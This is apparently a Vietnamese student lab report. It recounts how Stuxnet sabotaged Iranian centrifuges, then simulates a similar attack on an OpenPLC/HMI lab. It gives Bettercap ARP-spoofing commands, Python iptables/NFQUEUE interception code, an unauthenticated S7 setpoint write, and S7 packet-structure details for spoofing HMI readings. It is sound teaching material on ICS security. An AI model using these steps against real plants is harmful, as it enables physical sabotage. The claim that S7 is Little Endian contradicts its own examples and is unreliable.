# Chiến dịch tấn công mã độc Stuxnet
Trong bối cảnh căng thẳng địa chính trị ở Trung Đông, bất chấp thỏa thuận với cơ quan nguyên tử quốc tế (IAEA) về việc giám sát các hoạt động hạt nhân của Iran, chương trình hạt nhân tại nước này không ngừng được đẩy mạnh gây nên mối đe dọa lớn về an ninh với các nước trung khu vực. 

Dưới thời tổng thống George W. Bush, sau nhiều nỗ lực ngoại giao thất bại, Hoa Kỳ ( đứng đầu bởi Cơ quan NSA) và Israel bắt đầu một chiến dịch tấn công mạng có tên là **Operation Olympic Games** nhằm phá hoại chương trình hạt nhân của Iran. Mục tiêu là làm hư hại các máy ly tâm khí (**gas centrifuges**) được sử dụng để làm giàu Uranium tại nhà máy hạt nhân Natanz ở Iran, từ đó làm chậm lại chương trình hạt nhân của nước này. Chương trình được cho là đã phát triển một loại mã độc có tên là **Stuxnet** từ 2004-2008, tiêu tốn 2 tỷ đô la Mỹ cùng các chiến dịch tình báo, xâm nhập phức tạp để đưa được mã độc vào hệ thống mạng nội bộ được cách ly air-gapped hoàn toàn của nhà máy hạt nhân Natanz.


Quá trình tấn công:

1. **Lây nhiễm trong windows**: Được lây nhiễm vào một máy tính trong mạng nội bộ thông qua USB do một gián điệp để lại. Sau đó, nó lan tiếp trong mạng nội bộ thông qua 4 lỗ hổng Zero-day  của Windows và gửi thông tin về các máy chủ Command and Control (C&C) của kẻ tấn công [[1]](../Research%20papers/Stuxnet%20in%20details.pptx.pdf).


2. **Lây nhiễm vào phần mềm (*)Siemens Step 7**: Tại mỗi máy tính windows, nó quét để truy tìm phần mềm **Siemens Step 7**. Nó can thiệp vào thư viện giao tiếp `s7otbxdx.dll` của Step7 để chặn và sửa luồng trao đổi giữa phần mềm Step 7 và PLC:


    <div style="display: flex; gap: 20px; align-items: flex-start;">
        <div style="text-align: center;">
            <b>Normal communications between Step 7 and a Siemens PLC</b><br>
            
        </div>
        <div style="text-align: center;">
            <b>Stuxnet hijacking communication between Step 7 software and a Siemens PLC</b><br>
            
        </div>
    </div>

    Về bản chất, đây là một kiểu man-in-the-middle ở tầng phần mềm

3. **Can thiệp vào quá trình điều khiển máy ly tâm khí**: Stuxnet can thiệp vào quá trình điều khiển máy ly tâm khí bằng cách sửa đổi code trong PLC để tăng tốc độ vòng quay của máy ly tâm lên mức cao hơn bình thường. Cụ thể, Stuxnet can thiệp vào Step7 để gửi code độc hại nhằm tăng tốc độ vòng quay đến PLC -> PLC thực thi code, gửi tín hiệu điều khiển đến thiết bị biến tần (VFD Variable Frequency Drive) -> biến tần điều chỉnh tốc độ vòng quay của máy ly tâm -> làm hỏng máy ly tâm. 

    

    Đồng thời, Stuxnet cũng can thiệp vào đầu ra của PLC để gửi phần mềm HMI WinCC đọc dữ liệu sai lệch về tình trạng của máy ly tâm, khiến các kỹ sư không nhận ra rằng máy ly tâm đang bị hư hại.


Tuy nhiên điều tinh vi ở đây là Stuxnet chọn lọc các mục tiêu rất kỹ càng. Nếu mục tiêu không thỏa mãn yêu cầu, Stuxnet sẽ ngủ đông để giảm thiểu sự hiện diện của mình. Nó chỉ tấn công vào các PLC điều khiển biến tần có thông số:

- Thuộc dòng Siemens S7-300

- Nhà sản xuất biến tần là Vacon (Finland)hoặc Fararo Paya (Iran)

- Tần số vận hành nằm trong khoảng **807** Hz đến **1210** Hz. Do đây là tốc độ quay lớn hơn nhiều so với tốc độ của hầu hết các máy công nghiệp, trừ máy ly tâm khí. 

Khi đủ điều kiện, Stuxnet thay đổi tần số đầu ra trong các giai đoạn ngắn để làm rối loạn hoạt động của hệ thống, với các mức thường được nhắc đến là 1410 Hz, 2 Hz và 1064 Hz. Với cách này, nó làm thay đổi tốc độ quay của máy ly tâm và có thể gây hư hại vật lý, trong khi dữ liệu giám sát vẫn bị che giấu.

Sự tồn tại của Stuxnet chỉ được phát hiện rộng rãi vào năm 2010, khi phiên bản thứ 3 của nó  đã lan rộng ra toàn thế giới. Một công ty an ninh mạng Belarus phát hiện ra nó trên một máy tính ở Iran. Sau đó, các nhà nghiên cứu bảo mật đã phân tích và xác định rằng Stuxnet là một phần của một chiến dịch tấn công mạng tinh vi nhằm vào chương trình hạt nhân của Iran.

> [!NOTE]
> Trong mô phỏng tấn công của đồ án này, để phù hợp với giới hạn về thời gian và nguồn lực, chúng tôi sẽ mô phỏng đơn giản hóa kịch bản tấn công man-in-the-middle ở trên tầng giao thức mạng thay vì tại dll như thực tế Stuxnet đã làm.

**(*)** *Tia Portal là một bộ phần mềm độc quyền của Siemens để làm việc với các dòng PLC của hãng (S7-300, S7-400, S7-1200, S7-1500), bao gồm: STEP 7 dùng để lập trình và cấu hình cho các dòng PLC, WinCC dùng để thiết kế HMI/SCADA, S7- PLCSIM / S7 PLCSIM Advanced dùng để mô phỏng hoạt động của PLC trên máy tính mà không cần phần cứng thực tế, Startdrive dùng để cấu hình biến tần, động cơ.*

# Mô phỏng tấn công

.svg>)

> Mục tiêu của tấn công là làm thay đổi giá trị của một biến nằm trong datablock của PLC, từ đó làm thay đổi hành vi của hệ thống điều khiển. Đồng thời can thiệp vào quá trình gửi dữ liệu để HMI không nhận ra sự thay đổi này.

## Thiết lập PLC

Import dự án vào OpenPLC Editor với thư mục [này](./plc_server_code/). Chương trình đang chạy trên PLC có dạng như sau

- Với cấu hình datablock như sau để làm biến đầu vào (DB1) và ra (DB2) cho PLC:

    <div align="center">
    <figure>
        
        <figcaption>Khai báo 2 datablock do mỗi datablock trong OpenPLC chỉ cho phép 1 kiểu dữ liệu</figcaption>
    </figure>
    </div>

- Khai báo tag và chương trình logic (viết dưới dạng Structured Text). Chương trình mô phỏng lại tốc độ quay của động cơ dao động quanh mốc `iSetpoint` được chỉ định bằng `1200`:

    <div align="center">
        <figure>
            
            <figcaption>Khai báo tag và chương trình logic (viết dưới dạng Structured Text)</figcaption>
        </figure>
    </div>

    Gồm các tags (Giống dạng binding variables trong IT):

    - `iSimSpeed`: tốc độ thực tế máy đang quay, nằm ở `DB1`, lấy 2 Byte từ offset 0
    - `iSetpoint`: tốc độ ngưỡng để máy quay dao động quanh giá trị này, nằm ở `DB1`, lấy 2 Byte từ offset 2
    - `iCounter`: Dùng để tạo dao động mô phỏng. 
    - `bCentrifugeStatus`: trạng thái hoạt động của máy ly tâm với 0 là bình thường, 1 là quá tốc độ, nằm ở `DB2`, lấy 1 Byte từ offset 0. Ở đây mô phỏng khi tốc độ quay vượt quá 1500 Hz thì máy ly tâm bị hư hại.


## Thiết lập HMI

Import dự án vào FUXA với thư mục [này](./hmi/fuxa_hmi_design.json):

<div align="center">
    <figure>
    
    <figcaption>Khai báo các HMI tags tương ứng với các PLC tags cần giám sát</figcaption>
    </figure>
</div>

<div align="center">
    <figure>
        
        <figcaption>Giao diện HMI, hiện tại máy đang hoạt động quanh mức 1200 nên sẽ hiển thị màu xanh</figcaption>
    </figure>
</div>

Trong Debugger của OpenPLC Editor cũng hiển thị thông tin tương tự:

<div align="center">
    <figure>
        
        <figcaption>Thông tin tương tự trong Debugger của OpenPLC Editor</figcaption>
    </figure>
</div>

> [!NOTE]
> Nên bật OpenPLC Editor nên để kiểm tra lại xem chương trình đã được nạp vào PLC chưa trước khi kết nối tới HMI hay đọc ghi vào PLC

Thu thập gói tin trên máy HMI thấy giao tiếp giữa HMI và PLC là sự lặp đi lặp lại của 2 cặp request-response sau:

- Cặp đầu tiên là request yêu cầu đọc 4 byte tại DB1 tại bit 0 của byte 0, tức ứng với biến `iSimSpeed` và `iSetpoint`:

    <div align="center">
        <figure>
            
            <figcaption>Request yêu cầu đọc 4 byte tại DB1 tại bit 0 của byte 0, tức ứng với biến `iSimSpeed` và `iSetpoint`</figcaption>
        </figure>
    </div>

 

    <div align="center">
        <figure>
            
            <figcaption>Response trả về giá trị của biến `iSimSpeed` và `iSetpoint`</figcaption>
        </figure>
    </div>

    Biến `iSimSpeed` là `042d` do nó nằm ở trước trong cấu hình các PLC tags, biến `iSetpoint` là `04b0`. S7 dùng Little Endian, nên giá trị `042d` tương ứng với `1069` và `04b0` tương ứng với `1200`.

- Cặp thứ hai là request yêu cầu đọc 1 byte tại DB2 tại bit 0 của byte 0, tức ứng với biến `bCentrifugeStatus`:

<div align="center">
    <figure>
        
        <figcaption>Request yêu cầu đọc 1 byte tại DB2 tại bit 0 của byte 0, tức ứng với biến `bCentrifugeStatus`</figcaption>
    </figure>
</div>

<div align="center">
    <figure>
        
        <figcaption>Response trả về giá trị của biến `bCentrifugeStatus`. Hiện đang là 0 tức máy đang hoạt động bình thường</figcaption>
    </figure>
</div>

## Attacker

Từ máy tấn công sẽ làm đồng thời:

1. **Tạo một lệnh ghi để ghi** giá trị của một biến nằm trong Datablock của PLC sử dụng thư viện Snap 7 hoặc S7 Comm của Python. Việc ghi này dễ dàng do giao thức S7 không có cơ chế xác thực. Ở đây sẽ chỉnh sửa giá trị biến `Setpoint` nằm ở vị trí `DB1.DBW2` từ `1200` thành `2000`. Script tại [đây (Bản dùng thư viện Snap7)](./attacker/test_readwrite_db_via_snap7.py) hoặc [đây (Bản dùng thư viện S7 Comm)](./attacker/test_readwrite_db_via_pythonS7comm.py). Output:

    ```
    Current Speed  | Setpoint Speed    | Centrifuge Status
    --------------------------------------------------
    b'\x03\xc1'    |    b'\x04\xb0'    |    b'\x00'
    b'\x07\xe4'    |    b'\x07\xd0'    |    b'\x01'
    ```

    `iSetpoint` từ `1200` (0x04b0) thành `2000` (0x07d0) và khi này trạng thái `bCentrifugeStatus` từ `0` thành `1`.  Nếu như chưa chạy script can thiệp thì trên HMI sẽ thấy máy đang dao động quanh mức 2000:

    <div align="center">
        
        <i>Máy đang dao động quanh mức 2000, hiển thị màu đỏ do quá mốc 1500 Hz </i>
    </div>
  

    <div align="center">
        
        <i>Kiểm tra trong các gói tin PLC gửi tới HMI để thấy giá trị của biến `iSetpoint` đã được thay đổi thành `2000` (0x07d0)</i>
    </div>

    Tấn công thay đổi giá trị của PLC thành công, giờ ta sẽ can thiệp vào giao tiếp giữa HMI và PLC để HMI không nhận ra sự thay đổi này.

    

2. **Tấn công Man in the middle bằng kỹ thuật ARP Spoofing** giữa cổng của Router (`.60.1`) và HMI (`.60.10`) thông qua tool **Bettercap**:


    ```bash
    # Run on attacker machine
    sudo bettercap -iface ens33 

    # Scan network for devices
    net.probe on

    # Show network devices
    net.show
    ```

    Đảm bảo đã Bettercap đã thu được thông tin của tất cả các thiết bị trong mạng:

    ```
    ┌───────────────┬───────────────────┬─────────┬──────────────┬───────┬────────┬──────────┐
    │     IP ▴      │        MAC        │  Name   │    Vendor    │ Sent  │ Recvd  │   Seen   │
    ├───────────────┼───────────────────┼─────────┼──────────────┼───────┼────────┼──────────┤
    │ 192.168.60.20 │ 00:0c:29:a6:c0:b0 │ ens33   │ VMware, Inc. │ 0 B   │ 0 B    │ 14:52:24 │
    │ 192.168.60.1  │ 00:0c:29:f1:b8:5e │ gateway │ VMware, Inc. │ 816 B │ 0 B    │ 14:52:24 │
    │               │                   │         │              │       │        │          │
    │ 192.168.60.10 │ 00:0c:29:2f:0d:bb │         │ VMware, Inc. │ 16 kB │ 8.3 kB │ 14:53:43 │
    └───────────────┴───────────────────┴─────────┴──────────────┴───────┴────────┴──────────┘
    ```

    ```bash
    # Specify IP of Router gateway and HMI as targets
    set arp.spoof.targets 192.168.60.1, 192.168.60.10
    
    # Enable internal ARP spoofing
    set arp.spoof.internal true
    # Enable full duplex ARP spoofing since we need to ensure HMI -> PLC direction is still working
    set arp.spoof.fullduplex true
    
    # Start ARP spoofing
    arp.spoof on
    ```

    Khi này trên HMI bắt gói tin sẽ thấy xen kẽ các gói tin của S7 và các gói ARP Spoofing:

    <div align="center">
        
        <i>Gói tin S7comm và ARP Spoofing xen kẽ nhau</i>
    </div>

3. **Chỉnh sửa gói tin S7comm** được gửi từ PLC tới HMI để thay đổi giá trị `Setpoint` từ `2000` thành `1200`. Sau khi Bettercap đã redirect được gói tin giữa Router gateway và Router, đẩy các gói tin này vào NFQUEUE của OS (Vì ta muốn xử lý các gói tin thay vì để OS tự động chuyển tiếp) và sử dụng một script Python để lấy gói tin từ NFQUEUE (thông qua thư viện `NetfilterQueue`), parse gói tin S7comm, tìm đến vị trí chứa giá trị `Setpoint` ở `DB1.DBW2` và sửa giá trị này từ `2000` thành `1200` trước khi đẩy gói tin trở lại NFQUEUE để tiếp tục được chuyển đi. Script tại [đây](./attacker/mitm/s7_intercept.py).

<div align="center">
<figure>
    
    <figcaption>Tấn công thành công khi thực tế máy đang chạy ở mức > 1500 Hz (màu đỏ), nhưng Setpoint vẫn hiển thị ở mức 1200</figcaption>
</figure>
</div>

Kiểm tra các gói tin:

<div align="center">
<figure>
     
    <figcaption>Giá trị `iSetpoint` trên gói tin tới HMI đang là 1200 (04b0) </figcaption>
</figure>
</div>

<div align="center">
<figure>
     
    <figcaption>Giá trị `bCentrifugeStatus` trên gói tin tới HMI 01</figcaption>
</figure>
</div>


<div align="center">
<figure>
    
    <figcaption>Kiểm tra debugger của OpenPLC Editor cũng cho thấy thực tế máy đang chạy giao động quanh mốc 2000</figcaption>
</figure>
</div>

## Phân tích tấn công

Phần khó nhất của cuộc tấn công này là làm sao sửa đổi gói tin rồi chuyển tiếp lại được. Để đảm bảo tốc độ, ở đây sử dụng phương pháp ARP Spoofing bằng Bettercap để redirect gói tin đến máy Attacker, tại đây, gói tin sẽ được đẩy vào NFQUEUE để Python app gọi lên xử lý thay vì để OS Kernel tự động forward gói tin đi. 

*Một phần vì Bettercap chỉ cung cấp khả năng chỉnh sửa gói tin khi intercept bằng Javascript mà ngôn ngữ này lại không phù hợp để viết bộ S7 Parser nên mới phải làm cách này*

```Python
# 1. Bật IP Forwarding
subprocess.run("sysctl -w net.ipv4.ip_forward=1 > /dev/null", shell=True)

# 2. Tắt RP Filter (Tránh rớt gói tin chiều về từ Router)
# Tránh kernel tự động drop gói tin lạ -> Cho phép gói tin từ PLC về được phép qua
subprocess.run("sysctl -w net.ipv4.conf.all.rp_filter=0 > /dev/null", shell=True)
subprocess.run("sysctl -w net.ipv4.conf.default.rp_filter=0 > /dev/null", shell=True)
subprocess.run(f"sysctl -w net.ipv4.conf.{INTERFACE}.rp_filter=0 > /dev/null", shell=True)

# 3. Thêm Route tới dải PLC thông qua Gateway thật
# Không có dòng này sẽ gây lỗi mất kết nối ngay lập tức trên HMI khi nó gửi yêu
# cầu read var tới PLC
print(f"[*] Thêm tuyến đường tới {PLC_NET} qua {GATEWAY}...")
subprocess.run(f"route add -net {PLC_NET} gw {GATEWAY} 2>/dev/null", shell=True)

# 4. Cấu hình Iptables
print("[*] Đang thiết lập Iptables NFQUEUE...")
subprocess.run("iptables -F", shell=True)               # Xóa sạch filter table
subprocess.run("iptables -t mangle -F", shell=True)      # Xóa sạch mangle table
subprocess.run("iptables -P FORWARD ACCEPT", shell=True) # Đảm bảo forward không bị chặn

# Bẫy traffic S7 (Port 102) vào Queue
# Để thay vì Kernel tự động drop gói tin, python app sẽ xử lý gói tin và chuyển tiếp lại
subprocess.run(f"iptables -t mangle -A FORWARD -p tcp --dport 102 -j NFQUEUE --queue-num {QUEUE_NUM}", shell=True)
subprocess.run(f"iptables -t mangle -A FORWARD -p tcp --sport 102 -j NFQUEUE --queue-num {QUEUE_NUM}", shell=True)

# Chặn gói RST tự phát từ Kernel (Tránh Disconnected)
# Kernel sẽ tự gửi RST (reset connection) nếu nhận gói từ port nó không biết
subprocess.run("iptables -I OUTPUT -p tcp --tcp-flags RST RST -j DROP", shell=True)
```

Sau khi đã có được gói tin cần tiến hành chỉnh sửa. Cấu trúc của gói tin S7 như sau:



Với:

- `TPKT Header`: Cố định là 4 byte như đã trình bày trong phần lý thuyết về giao thức S7.
    
- `COTP Header`: Cố định là 3 byte như đã trình bày trong phần lý thuyết về giao thức S7.
    
- `S7 Header`: Byte đầu tiên luôn là `0x32`, ta dùng byte này để phân biệt gói tin S7comm và các gói tin khác. Ngoài ra trong đây có một trường mà ta cần quan tâm đó chính là `ROSCTR` - `ROS Control`, đây là trường quyết định loại lệnh S7comm mà PLC gửi đi. Cụ thể:
    - `0x01`: Job
    - `0x02`: Ack
    - `0x03`: Ack_Data

    Như trong trường hợp này, quan sát thấy gói tin Read Var Request sẽ có `ROSCTR` là `Job`
    

    còn gói tin Read Var Response sẽ có `ROSCTR` là `Ack_Data`.
    

    Mấy trường còn lại trong Header không quan trọng cho dự án này.

- Phần `Param` và `Data` sẽ tuỳ thuộc vào loại lệnh S7comm đang được sử dụng, ví dụ như Setup Communication, Read Var, Write Var, ...

Ở đây chỉ xét tới phần `Param` và `Data` của loại lệnh **Read Var** [[2]](http://gmiru.com/article/s7comm-part2/). Đầu tiên là về cách định vị các Var muốn đọc. S7 có 3 cách để định vị các Var:

- **Any-type**: Chỉ rõ `area` (ví dụ: `DB`, `M`, `I`, `Q`), `address` (tức byte nào), kiểu dữ liệu. Ví dụ đọc biến `DB1.DBX0.0` sẽ có `area = DB`, `address = 1` (tức byte thứ 1), kiểu dữ liệu là bit Khi này, cấu trúc của phần `Param` sẽ là:

    Với Read Var **Request**:

    

    - `Function Code`: `0x04` vì đây là lệnh Read Var (Các kiểu định vị khác như DB-Type, Symbolic cũng giống trường này vì chúng đều thuộc nhóm command đọc ghi biến (`0x04`/`0x05`).)
    - `Item count`: Số lượng Items có sẽ được chỉ định trong gói tin này (Các kiểu định vị khác như DB-Type, Symbolic cũng giống trường này). Như trong hình là có 2 items.

    - Các kiểu định vị chỉ khác nhau ở phần cấu trúc của `Request Item`:
        - `Spec Type`: Luôn là `0x12` 
        - `Length`: Độ dài của Item này
        - `Syntax ID`: `0x10` cho kiểu Any-type, `0xb0` cho kiểu DB-Type

            Ảnh chụp lưu lượng từ Wireshark cho thấy hai bên trong dự án giao tiếp với nhau bằng kiểu Any-type `0x10`:
            

        - `Variable Type`: xác định kiểu dữ liệu và độ dài của biến (thường sử dụng các kiểu dữ liệu S7 như REAL, BIT, BYTE, WORD, DWORD, COUNTER, …).
